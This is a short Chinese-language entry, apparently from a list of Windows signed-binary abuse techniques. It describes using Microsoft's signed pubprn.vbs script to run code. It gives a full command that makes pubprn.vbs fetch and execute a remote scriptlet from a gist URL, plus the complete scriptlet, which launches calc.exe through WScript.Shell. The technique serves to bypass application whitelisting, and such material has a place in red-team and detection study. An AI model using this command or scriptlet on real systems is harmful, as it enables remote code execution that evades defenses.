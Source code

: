 

**15、pubprn.vbs**

在Windows 7以上版本存在一个名为PubPrn.vbs的微软已签名WSH脚本，其位于C:\Windows\System32\Printing_Admin_Scripts\en-US，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给GetObject()

```
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

test.sct

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
</registration>
<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```

![](./image/20200413-15.png)
